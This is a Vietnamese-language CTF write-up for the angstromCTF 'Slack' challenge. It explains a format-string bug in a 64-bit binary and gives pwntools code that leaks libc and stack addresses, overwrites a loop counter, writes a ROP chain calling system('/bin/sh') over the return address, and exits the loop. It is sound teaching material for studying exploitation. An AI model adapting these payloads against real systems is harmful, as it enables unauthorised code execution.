






# Angstromctf - Slack

# 1. Xem thông tin file

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
slack_patched: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=55d689855d28e8006ed53304898ca66ed71a07a5, not stripped
```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
RUNPATH:  b'.'
```

Tiếp đến đưa file vào ida-64bit



# 2. Phân tích 

Ở bài này cho ta nhập 3 lần và ta có nhận ra lỗi format strings tại `printf(format);`

Do số lượng ký tự được nhập vào là 13 ký tự nên ta không trực tiếp ghi địa chỉ nào đó để sửa được

Ta sẽ lợi dụng 3 lần fmt như sau:

```
    Lần 1: Leak địa chỉ
    
    Lần 2: Sửa pointer
    
    Lân 3: Sử dụng pointer
```

Ok vậy ta sửa và gi vào đâu?

Thấy số lượng lần sửa và ghi quá ít mà không có hàm `win()` và `onegadget` cũng không dùng được

-> Mình đã ghi vào giá trị loop i để ghi `rop_chain`

# 3. Khai thác

Bước 1: Leak libc, stack_addr

```
p.sendlineafter(b"Your message (to increase character limit, pay $99 to upgrade to Professional):", b"%21$p%25$p")
```



Sử dụng fmt test mình đã check được chuỗi nhập vào của ta ở stack thứ 14. Từ đó mình gdb để kiểm tra các giá trị còn lại

để từ đó leak libc và stack_addr



Khi có giá trị của stack ta có thể dễ dàng tính được địa chỉ của i.



Ở đây sẽ so sánh 4 bytes tại địa chỉ của i với 2

Mình sẽ bypass đoạn này bằng cách sửa byte tại vị trí cao nhất của 4 bytes này thành byte 0x80 khiến nó trở thành số

âm lớn nhất và ta có thể loop rất nhiều lần.

Bước 2: Sửa giá trị i

```
x_value = i_addr & 0xffff
p.sendafter(b"Your message (to increase character limit, pay $99 to upgrade to Professional):",b"%" + str(x_value).encode() + b"x%25$hn")
p.sendline(b"%128x%55$hhn")
```



Ở đây mình thấy tại vị trí thứ 25 có chứa 1 địa chỉ stack là `0x7fff2e21ce18`

-> mình sẽ sửa con trỏ tại vị trí đó là `0x7fff2e21d55c` thành địa chỉ của i+3 (sửa byte tại vị trí cao nhất) và sử dụng nó thôi

`0x7fff2e21d55c` ở vị trí thứ 55 và sử dụng `%hhn` sửa 1 byte

Bước 3: Ghi rop_chain

```
def rop_chain(addr, value):
    x_value2 = addr & 0xffff
    p.sendline(b"%" + str(x_value2).encode() + b"x%28$hn")
    x_value3 = value & 0xffff
    p.sendline(b"%" + str(x_value3).encode() + b"x%55$hn")
    x_value2 = addr+2 & 0xffff
    p.sendline(b"%" + str(x_value2).encode() + b"x%28$hn")
    x_value3 = (value & 0xffff0000) >> 4*4
    p.sendline(b"%" + str(x_value3).encode() + b"x%55$hn")
    x_value2 = addr+4 & 0xffff
    p.sendline(b"%" + str(x_value2).encode() + b"x%28$hn")
    x_value3 = (value & 0xffff00000000) >> 4*8
    p.sendline(b"%" + str(x_value3).encode() + b"x%55$n")
    

rop_chain(ret_addr, ret)
rop_chain(ret_addr+8, pop_rdi)
rop_chain(ret_addr+16, binsh)
rop_chain(ret_addr+24, system)
```

Ở đây mình cũng sẽ làm tương tự như ghi giá trị i nhưng do giá trị thanh ghi của các giá trị `rop_chain` quá lớn nên mình 

đã ghi 3 lần cho mỗi giá trị. 2 lần sử dụng %hn để ghi 2 bytes va 1 lần sử dụng %n để ghi 4 bytes (do mỗi giá trị `rop_chain` chỉ sử dụng 6 bytes giá trị nên mình dùng %n để ghi phần bytes trước nó thành 0 hết để tránh sai địa chỉ)

Bước 4: Break loop

Khi đã ghi đè `rop_chain` vào ret_addr rồi thì mình phải break vòng lặp. Mình đã sử dụng lại phần ghi bên trên để ghi nó thành số 

nguyên dương

```
p.sendafter(b"Your message (to increase character limit, pay $99 to upgrade to Professional):",b"%" + str(x_value).encode() + b"x%25$hn")
p.sendafter(b"Your message (to increase character limit, pay $99 to upgrade to Professional):",b"%10x%55$hhn%55$p")
```




